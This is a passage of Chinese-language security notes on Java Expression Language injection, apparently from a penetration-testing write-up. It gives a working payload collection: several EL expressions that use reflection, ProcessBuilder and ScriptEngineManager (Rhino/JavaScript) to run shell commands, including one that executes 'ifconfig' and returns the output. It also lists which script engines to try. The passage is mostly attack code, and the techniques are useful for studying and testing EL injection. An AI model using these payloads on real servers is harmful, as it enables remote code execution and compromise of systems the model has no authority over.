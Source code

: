 ```
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}
```

### POC
对EL进行利用，首先测试如下命令执行的payload。用反射来获取实例，如`''.class.forName`，但是有些场景下会抛出不支持访问`.class`，那么可以选择`getClass()`进行替代。
```
# 命令执行
${Runtime.getRuntime().exec("open -a Calculator")}
${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'open -a Calculator')}
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("open -a Calculator")}
${"".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(["open","-a","Calculator"]).start()}
```
还可能因为EL规范不完整（VarArgs未在J2EE EL中实现）而抛出`java.lang.IllegalArgumentException: wrong number of arguments`，这样就无法直接传参（也就无法直接调用静态方法Method.invoke或非默认构造函数Constructor.newInstance）。那么实例化类的唯一选择是使用`java.lang.Class.newInstance()`。`javax.script.ScriptEngineManager`就是满足这个条件的类之一
```
# ScriptEngineManager基本用法
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('open -a Calculator')}
```

`ScriptEngineManager`需要根据引擎名调用对应引擎来执行命令，常用的JavaScript引擎在某些系统中不可用，需要利用如下语句查找可用引擎
```
# ScriptEngineManager查询可用引擎
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getClass().getMethod('getEngineFactories').invoke(''.getClass().forName('javax.script.ScriptEngineManager').newInstance())}
```

常用引擎及其引擎名称如下
```
BshScriptEngineFactory:      beanshell、bash、java
GroovyScriptEngineFactory:   groovy、Groovy
JexlScriptEngineFactory:     JEXL、jexl、Jexl、JEXL2、Jexl2、jexl2
PyScriptEngineFactory:       python、jython
NashornScriptEngineFactory:  nashorn、Nashorn、js、JS、JavaScript、javascript、ECMAScript、ecmascript
QuercusScriptEngineFactory:  quercus、php
RhinoScriptEngineFactory:    rhino、js、javascript、JavaScript、ECMAScript、ecmascript
```
针对不同引擎选用相应的payload，其他引擎payload类似但可能存在解析差异
```
# Rhino引擎payload
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval('new java.lang.String(\"axisx\")')}
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval('var x=new java.lang.ProcessBuilder; x.command(\"/bin/sh\",\"-c\",\"open -a Calculator\"); x.start()')}
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval('java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")')}
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval('var s = [3];s[0] = \"/bin/sh\";s[1] = \"-c\";s[2] = \"ifconfig\";var p = java.lang.Runtime.getRuntime().exec(s);var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");var result = sc.hasNext() ? sc.next() : \"\";sc.close();result;')}
```
关于poc构造，可以参考的文章：https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html
